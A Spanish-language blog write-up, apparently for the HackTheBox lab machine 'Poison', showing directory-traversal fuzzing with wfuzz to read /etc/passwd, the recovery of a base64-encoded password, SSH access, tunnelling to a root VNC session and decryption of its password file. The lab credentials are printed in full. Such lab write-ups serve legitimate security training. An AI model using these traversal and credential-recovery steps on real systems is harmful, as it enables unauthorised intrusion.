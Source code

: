 ```yaml
---
layout      : post
title       : "Poison - HackTheBox"
author      : elc4br4
image       : assets/images/HTB/Poison-HackTheBox/Poison.webp
category    : [ htb ]
tags        : [ FreeBSD ]
---
```


En esta ocasión estaré resolviendo una máquina de nivel MEDIUM de HackTheBox en la que tendremos que explotar la vulnerabilidad Directory Path Transversal y a través de procesos en ejecución encontraremos el servicio VNC y tendremos que crear un Túnel ssh para acceder al mismo.

![](/assets/images/HTB/Poison-HackTheBox/Poison2.png)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

![](/assets/images/HTB/Poison-HackTheBox/Poison-rating.webp)

...


**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
2. [Enumeración](#enumeración).
    * [Enumeración Web](#enum-web).
3. [Sesión SSH](#sesion-ssh).   
    * [SSH](#ssh).
 5. [Escalada de Privilegios](#privesc). 
    * [VNC](#vnc).   


...

# Reconocimiento [#](reconocimiento) {#reconocimiento}

----

## Reconocimiento de Puertos [📌](#recon-nmap) {#recon-nmap}

```nmap
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Tenemos el puerto 22 (ssh) y el puertto 80 (http)

Escaneo un poco más a fondo para encontrar más información al respecto.

```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

# Enumeración [#](enumeración) {#enumeración}

----

## Enumeración Web [📌](#enum-web) {#enum-web}

Al acceder desde el navegador para revisar el servidor web vemos lo siguiente:

![](/assets/images/HTB/Poison-HackTheBox/web1.webp)

Si añadimos en el campo el parámetro listfiles.php

![](/assets/images/HTB/Poison-HackTheBox/web2.webp)

Podemos ver que hay un archivo llamado pwdbackup.txt

![](/assets/images/HTB/Poison-HackTheBox/web3.webp)

En el hay una contraseña encodeada en base64 13 veces.

Tras decodear la cadena base64 13 veces encontramos la contraseña.

> Charix!2#4%6&8(0 

Tenemos una contraseña pero aún nos falta un usuario, asique al ver que en el servidor web tenemos muchos archivos .php procedo a comprobar si podría existir alguna vulnerabilidad LFI o Directory Transversal.

A través de un diccionario y la herramienta wfuzz compruebo si existe alguna de estas vulnerabilidades.

> `wfuzz -c -w /usr/share/payloadsallthethings/"Directory Traversal"/Intruder/dotdotpwn.txt -u 'http://10.10.10.84/browse.php?file=FUZZ' --hl=4,2`

![](/assets/images/HTB/Poison-HackTheBox/wfuzz.webp)

Todas esas rutas podríamos usar para leer el archivo passwd.

![](/assets/images/HTB/Poison-HackTheBox/passwd.webp)

Tenemos el usuario Charix y su contraseña.

> Charix:Charix!2#4%6&8(0

Ahora intento loguearme con esas credenciales a través de ssh para obtener acceso al sistema.

# Sesión SSH [#](sesion-ssh) {#sesion-ssh}

----

## SSH [🔥](#ssh) {#ssh}

Una vez nos logueamos podemos leer la flag user.txt 

![](/assets/images/HTB/Poison-HackTheBox/user.webp)

# Escalada de Privilegios [#](privesc) {#privesc}

----

## VNC [👽](vcn) {#vnc}

Ahora toca escalar privilegios para leer la flag root.txt

En el directorio de usuario de Charix tenemos un archivo llamado secret.zip

Nos lo descargamos a nuestra máquina atacante

```bash
❯ scp charix@10.10.10.84:/home/charix/secret.zip .
Password for charix@Poison:
secret.zip
```
Y lo descomprimimos usando la contraseña que usamos para conectarnos por ssh (Charix!2#4%6&8(0)

![](/assets/images/HTB/Poison-HackTheBox/secret.webp)

Tenemos caracteres no legibles, lo que me hace pensar que estoy yendo por el camino equivocado.

Dejo a un lado el archivo y enumero más vectores de escalada.

Miro los procesos existentes en ejecución con el comando `ps aux`

> `root   529   0.0  0.9  23620  8872 v0- I    22:34    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -d`

```netstat
charix@Poison:~ % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.22         10.10.14.3.54562       ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*                    
udp6       0      0 *.514                  *.*                    
Active UNIX domain sockets
```

Tenemos el servicio VNC activo en el puerto 5901, asique para poder conectarme he de crear un tunel a través de ssh.

Para crear el túnel:

> `ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84`

Una vez creado ya puedo conectarme al servicio VNC a través de la herramienta vncviewer.

Podéis descargar la herramienta VNCViewer desde aquí [https://www.realvnc.com/es/connect/download/viewer/linux/](https://www.realvnc.com/es/connect/download/viewer/linux/)

Lo descargo e intento conectarme pero me pide una contraseña, pruebo con la del usuario Charix pero no funciona.

Pruebo introduciendo los datos del archivo secret que unzipeamos pero nada, asique se me ocurre probar con secret (el nombre del archivo).

Pero tampoco hay suerte... asique intento decodificar el contenido del archivo secret.

Encuentro esta herramienta [https://github.com/trinitronx/vncpasswd.py](https://github.com/trinitronx/vncpasswd.py) 

La consigo decodificar

```vncpass
❯ python2 vncpasswd.py -d -f /home/elc4br4/secret
Decrypted Bin Pass= 'VNCP@$$!'
Decrypted Hex Pass= '564e435040242421'
```

Y ya puedo conectarme.

> `vncviewer 127.0.0.1:5901 -passwd VNCP@$$!`

![](/assets/images/HTB/Poison-HackTheBox/vnc.webp)


